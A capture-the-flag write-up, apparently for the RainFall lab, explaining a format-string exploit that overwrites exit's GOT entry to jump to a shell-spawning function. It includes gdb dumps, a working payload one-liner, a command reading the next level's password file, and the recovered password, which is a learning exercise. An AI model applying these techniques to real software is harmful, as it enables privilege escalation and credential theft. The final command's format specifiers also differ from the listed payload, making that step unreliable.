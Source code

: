 1. cf `source.c` => Very close to level 3, but now right after printf(), the exit(1) function is called to quit the program.

2. `info functions` => we see that there is a `o()` function. `disas o` => it calls `system("/bin/sh")`

3. here we have our stack at time of printf() call :

    ![Stack](Ressources/StackStateLevel5png.png)


    At first I thought to modify the address of the next instruction at tiem of printf() call, with the address of o().
    I will explian how I proceeded, explain why it does not work, and make a very small change to make it work :


4. Let's find the address of o() :
`disas o` => **0x080484a4** this is the address we will have to record in replacement of the address stored as next instruciton at time of printf() call ($eip of n() function)

5. Let 's find the address of $eip at which we should record this value:

    - set a breakpoint at printf call :

    ```
    Breakpoint 11, 0x080484f3 in n ()
    (gdb) disas
    Dump of assembler code for function n:
    0x080484c2 <+0>:	push   ebp
    0x080484c3 <+1>:	mov    ebp,esp
    0x080484c5 <+3>:	sub    esp,0x218
    0x080484cb <+9>:	mov    eax,ds:0x8049848
    0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x080484dc <+26>:	lea    eax,[ebp-0x208]
    0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
    0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484ea <+40>:	lea    eax,[ebp-0x208]
    0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
    => 0x080484f3 <+49>:	call   0x8048380 <printf@plt>
    0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
    0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```

    - then step into printf : `si` This will have push $eip on the stack. Now we can look at the value stored on top of the stack (at $esp), and it should be the value of the next instruction following `printf()` call (see dump above : **0x080484f8**)

    ```
    Dump of assembler code for function printf@plt:
    =>  0x08048380 <+0>:	jmp    DWORD PTR ds:0x8049824
        0x08048386 <+6>:	push   0x0
        0x0804838b <+11>:	jmp    0x8048370
    End of assembler dump.
    (gdb) i r $esp
    esp            0xbffff4cc	0xbffff4cc
    (gdb) x/4wx 0xbffff4cc
    0xbffff4cc:	0x080484f8	0xbffff4e0	0x00000200	0xb7fd1ac0
    (gdb)
    ```

    This is exactly what we were expecting!
    So the address to modify on the stack is : **0xbffff4cc** : this is the place where $eip is going to recover the next instruction when exiting printf!

    6. Defining the payload:

    - As the number to record (which will be the number of bytes printed out by printf) is too high **0x080484f8**, we will split it into two short ints that we will record on two consecutive two-bytes address location : **0x0804 = 2052** at **0xbffff4ce** and **0x84f8 = 33956** at **0xbffff4cc**.

    Recall : 

    ![Stack](Ressources/numberAtAddress.png)


    - SO the payload is:
        * \xce\xf4\xff\xbf      --> 4 bytes
        * \xcc\xf4\xff\xbf      --> 4 bytes
        * %2044d                --> 2052 - 8 bytes already written
        * %4$hn                 --> `hn` is for `half-word` meaning we are going to write a short int on 2 bytes of memory. The first address written in our buffer is at 4 * 4 = 16 bytes from our printf argument (cf first diagram above)
        * %31904d               --> 33956 - 2052 bytes already written
        * 5$hn


    7. When we build the payload and cat it into the program, as we follow along with gdb, we can see that it works => it calls the `o()` function. But via gdb, the `setuid` bit is off, and a command is executed with the permission of the user who runs the program, not with the permissions of the one owning it. So we just have to launch it outside gdb. But now it does not work... `Illegal instruction`. Why is that?


    8. gdb loads a couple of variables onto the stack => teh stackframe is not at the same level as when running outside of gdb! offsets, memory value in data segment are the same, but not hard-coded value on the stack! So the address of o() is the same, but not the one where the next instruciton following printf() call is stored! Hence it does not work. There is probably a way to discover the size of variables loaded into the stack by gdb, but here there is a better way.


    9. In n() memory dump above, we can see that following printf, the `exit()@plt` function is called. plt stands for `Procedure Linkage Table`. The use of the plt happens when there is a dynamic linkage to a library. The compiler does not know until runtime where the function to be called is located. So the program says "go get this function in the table and put its address here".

        ```
            0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
            0x080484ff <+61>:	call   0x80483d0 <exit@plt>
        End of assembler dump.
        (gdb) disas 0x80483d0
        Dump of assembler code for function exit@plt:
            0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
            0x080483d6 <+6>:	push   0x28
            0x080483db <+11>:	jmp    0x8048370
        End of assembler dump.
        (gdb) x/s 0x8049838
            0x8049838 <exit@got.plt>:	 "\326\203\004\b\346\203\004\b"
            (gdb)
        ```

        **got** stands for "Global offset table"

        So here our aime is to jump at `o()` function instead of at the plt inside the `exit@plt` call!

        --> We have to write the exact same number (the start of the o() function), but at a different memory location ; **0x08049838**

    10. Final payload:

        * \x3a\x98\x04\x08      --> 4 bytes
        * \x38\x98\x04\x08      --> 4 bytes
        * %2044d                --> 2052 - 8 bytes already written
        * %4$hn                 --> `hn` is for `half-word` meaning we are going to write a short int on 2 bytes of memory. The first address written in our buffer is at 4 * 4 = 16 bytes from our printf argument (cf first diagram above)
        * %31904d               --> 33956 - 2052 bytes already written
        * 5$hn


    ```
    level5@RainFall:~$ (python -c 'print("\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d%5$hn%31904d%5$hn")') > /tmp/exploit5
    level5@RainFall:~$ cat /tmp/exploit5 - | ./level5
    ````

    output:

    ```
                                                                                                                                                                                                                                                                                                                 -1208149312
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```